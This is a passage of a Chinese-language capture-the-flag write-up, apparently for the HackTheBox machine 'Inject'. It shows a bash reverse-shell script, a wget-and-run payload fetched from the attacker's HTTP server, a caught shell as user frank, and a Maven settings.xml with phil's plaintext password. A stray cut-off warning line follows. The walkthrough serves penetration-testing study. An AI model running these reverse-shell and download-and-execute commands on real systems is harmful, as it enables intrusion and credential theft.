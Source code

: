 尝试payload换成反弹shell一直没反应。好像是只要有重定向符号就不行？（用没有重定向符的反弹shell也没反应，可能是没命令环境吧。不是很懂）

那试试将shell传过去？  
kali里创建反弹shell脚本后用python开启http服务。  
```bash
└─$ cat ss.sh
#!/usr/bin/bash
/usr/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1

└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.204 - - [26/May/2023 08:00:26] "GET /ss.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

└─$ nc -lvnp 4444           
listening on [any] 4444 ...
```

Brup也一边控制目标机获取反弹shell，然后执行，payload如下：

- `wget 10.xx.xx.xx:80/ss.sh -O /tmp/ss.sh`
- `bash /tmp/ss.sh`

成功获得frank用户的shell：
```bash
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.204] 42834
bash: cannot set terminal process group (789): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ id
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```

顺便看了一眼，原来刚刚的任意命令执行，传过去的反弹shell属主就是frank。

探索SUID无发现。

### 发现phil用户密码

然后看了看家目录，发现隐藏文件夹 `.m2`，又从里面的 `settings.xml` 发现phil用户的账号密码：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that